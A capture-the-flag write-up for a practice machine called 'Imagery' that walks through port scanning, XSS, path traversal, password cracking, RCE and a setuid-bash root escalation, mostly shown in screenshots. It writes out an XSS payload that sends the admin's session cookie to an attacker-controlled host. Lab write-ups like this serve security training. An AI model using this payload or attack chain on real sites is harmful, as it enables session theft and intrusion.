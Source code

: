 # Imagery

![Logo](images/icon.png)

## Port enumeration

First thing I did was scaning the objetive with nmap.

```bash
nmap -p- --open -T5 -n -vvv -Pn imagery.htb
```

This reveals 2 open ports, 22 and 8000

```
22/tcp    open    ssh        syn-act    ttl    63
8000/tcp  open    http-alt   syn-act    ttl    63
```

I scan this two services to reveal more information.

```bash
nmap -p 22,8000 -sCV imagery.htb
```

This reveal that the http service in port 8000 is a python server.

![Logo](images/image18.png)

## Web enumeration

![Logo](images/image7.png)

The first thing I saw was the page home, here, I can only find 2 functional pages, ```upload```, where i can upload an image in the server, I tried to exploit this page for a wile, but nothing worked.

![Logo](images/image21.png)

The other page I found was ```report a bug```, this panel allow me to send a report to the admin, it seems like it can be vulnerable with XSS, so, I test it and I confirmed the vulnerability.

![Logo](images/image25.png)

## XSS Explotation

I send a payload who will allow me to steal the admin cookies.

```html
<img scr=x onerror="new Image().src='http://<myip>:<myport>/?='+encodeURIComponent(document.cookie)"/>
```

This sends me the session cookie to my python server.

![Logo](images/image13.png)

## Admin panel enumeration

With that cookie, I were allowed to log in the page as admin.

![Logo](images/image37.png)

As admin, I had access to ```Admin Panel```.

![Logo](images/image1.png)

Here, I can see who I can download the logs from 2 users, admin and testuser.

After reading these logs, I didnt found nothing interesting, but, after intercept the http request with  burpsuite, I found a path traversal vulnerability.

![Logo](images/image26.png)

## Path traversal explotation

I discovered with /etc/passwd who the 2 users in this machine are web and mark

After a bit, I read the config files, where I found some credentials.

![Logo](images/image27.png)

With john the ripper, I was able to obtain the testuser password.

![Logo](images/image5.png)

Now, I loged in the machine ad testuser, but, I cant see mayor diferences, so, I read the source code.

![Logo](images/image40.png)

And there it is, a RCE, and this feature is only available to testuser.

## RCE exploitation

I just update a image and use the Visual Image Transform feature.

![Logo](images/image12.png)

With burpsuite, in injected the code.

![Logo](images/image22.png)

And with that, I obtained a shell.

![Logo](images/image30.png)

## Local enumeration

After a while i found, in /var/backup, 2 interesting files.

![Logo](images/image39.png)

For some reason I found the root flag there — this must be an error — so I continued with the web backup.

## AES brute force

The backup is encrypted with AES, so I needed to find the password by brute force.

![Logo](images/image17.png)

I made a python script to attack with dictionary.

![Logo](images/image28.png)

Here, I found a oldest version of the app, and, in the database, i found 2 more users and their hashes, web, and mark.

![Logo](images/image2.png)

With john, I reveal the mark password.

![Logo](images/image9.png)

And, with that, I log as mark with su.

![Logo](images/image23.png)

## Privilege scalation

After a short enumeration I discovered that ```/bin/bash``` has the setuid bit set.

![Logo](images/image16.png)

I only needed to execute this binary as its owner, and I became root.

![Logo](images/image20.png)
